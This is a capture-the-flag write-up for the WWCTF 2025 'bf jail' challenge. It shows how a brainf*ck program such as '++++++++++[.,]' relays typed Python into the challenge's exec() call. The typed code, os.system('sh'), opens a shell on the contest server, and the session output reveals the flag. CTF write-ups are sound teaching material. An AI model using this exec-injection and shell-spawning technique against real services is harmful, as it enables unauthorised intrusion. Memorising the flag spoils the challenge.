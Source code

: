 <details>
<summary>++++++++++[.,]</summary>

# bf jail write-up (WWCTF 2025)

**Name:** bf jail

**Description:** Jail but with my best friend? That doesn't sound too bad. Oh wait...

**Type:** Miscellaneous / Brainf\*ck / Code Golf

**Points:** 127

**Author:** dfoo

**File:** [chall.py](/bf%20jail/chall.py)

## Analysis

Check the code:
```python
#!/usr/bin/env python3
import sys


def bf(code):
    output = ""
    s = []
    matches = {}
    tape = [0] * 1000000
    for i, j in enumerate(code):
        if j == "[":
            s.append(i)
        if j == "]":
            m = s.pop()
            matches[m] = i
            matches[i] = m
    cp = 0
    p = 0
    while cp < len(code):
        if code[cp] == "+":
            tape[p] = (tape[p] + 1) % 256
        if code[cp] == "-":
            tape[p] = (tape[p] - 1) % 256
        if code[cp] == ",":
            c = sys.stdin.read(1)
            tape[p] = (ord(c) if c else 0) % 256
        if code[cp] == ".":
            output += chr(tape[p])
        if code[cp] == "<":
            p -= 1
        if code[cp] == ">":
            p += 1
        if code[cp] == "[":
            if not tape[p]:
                cp = matches[cp]
        if code[cp] == "]":
            if tape[p]:
                cp = matches[cp]
        cp += 1

    return output
...
```
Ok it's just brainf\*ck parser, keep reading:
```python
...
if __name__ == "__main__":
    code = input("> ")
    if len(code) > 200:
        print("200 chars max")
        sys.exit(0)
    if not all(c in set("+-<>[],.") for c in code):
        print("nope")
        exit(0)
    code = bf(code)
    exec(code)
```
Hmm, so it's golfing with brainf\*ck. It's also friendly enough to run whatever our brainf\*ck code spits out - that's promising, just get the code to generate `import os;os.system('sh')` and we get the shell.

## Attempts to solve

### 0. Golfing

Get a generator to convert the string above into brainf\*ck, and perform all the necessary cancellations and optimizations possible.

However, I'm new to golfing with brainf\*ck and ~am a lazy a\*\*~ don't want to [learn it](https://codegolf.stackexchange.com/questions/12973/tips-for-golfing-in-brainfuck) on the fly, so I need to find an easier way out.

### 1. Input

Look at the parser more carefully:
```python
        if code[cp] == ",":
            c = sys.stdin.read(1)
            tape[p] = (ord(c) if c else 0) % 256
```
That's helpful - we're allowed to enter stuff ourselves! Just get a piece of basic brainf\*ck code to relay our input to output and we're done:
```brainfuck
+[,.]
```
`+` increase the data pointer to 1 to enter the loop. The loop is kept open as long as the character has an ASCII code greater than 0 (i.e. not a null byte). We can then enter whatever we want and finish with a null byte:
```
$ nc chal.wwctf.com 6002
> +[,.]
import os 
os.system('sh')
^@
Traceback (most recent call last):
  File "/app/run", line 53, in <module>
    exec(code)
ValueError: source code string cannot contain null bytes
```
It even support multiline code now, and...

Oh... the null byte is going to enter the string too. Gotta fix that now.

### 2. Not letting the null byte in

The simplest fix is to swap `,` and `.` so the entered character is tested by `[` first. The downside is that whatever is before `[` will get put in as the first character. The first character we want is `i` with ASCII code 105, so...
```
$ nc chal.wwctf.com 6002
> +++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++[.,]
mport os
os.system('sh')
^@
echo Voilà!  # input
Voilà!
```
We have the shell now.

### 3. Optimize the solution

The above works, but it is:
- ugly: the first character always gets left out
- not general: if we want to change the first character (if we ever want to do this), we have to count the number of `+`s again

Then suddenly, I had a spark in my mind: `\n` is a valid Python code! The brainf\*ck code then greatly simplifies:
```brainfuck
++++++++++[.,]
```
`++++++++++` sets the data pointer to 10 (the ASCII code of `\n`), the first execution of `.` then puts down a `\n`, and the loop executes until a null byte is entered, which is discarded. With this, we finally have

## The solution
```
$ nc chal.wwctf.com 6002
> ++++++++++[.,]
import os
os.system('sh')
^@
ls  # input
flag.txt
run
cat flag.txt  # input
wwf{4n0th3r_CTF_4n0t3r_br41nfcK_ch4ll_7696bd540337f}
```
I really liked this solution. You can now run Python code as it is from a file:
```
$ nc chal.wwctf.com 6002
> ++++++++++[.,]
while True:
    print(input('> ').replace('I', 'you')
                     .replace('my', 'your')
                     .replace('am', 'are'))
^@
> 
> What am I doing with my life
What are you doing with your life
> bruh
bruh
> 
```

---
<details>
<summary>Afterthought</summary>

As the author @dfoo said in the Discord chat, the uploaded version of the challenge was unfortunately the wrong version. The correct version should also blacklist `,` and certain keywords, forcing the players to golf `import os;os.system('sh')` in brainf\*ck. I feel a bit sorry about this, but hey, that's all the fun isn't it? 😉

As [@maximxlss](https://github.com/maximxlss) pointed out, the idea in [stage 1](#1-input) will work with some simple nested brackets:
```brainfuck
+[,[.>]<]
```
This ended up even shorter than my final solution, and really captures the original spirit of the challenge even in this wrong version. I greatly appreciate the elegance of this solution, so I relayed it here.

That being said, my monke brain would not have worked that out during the event 🤪
</details>
</details>
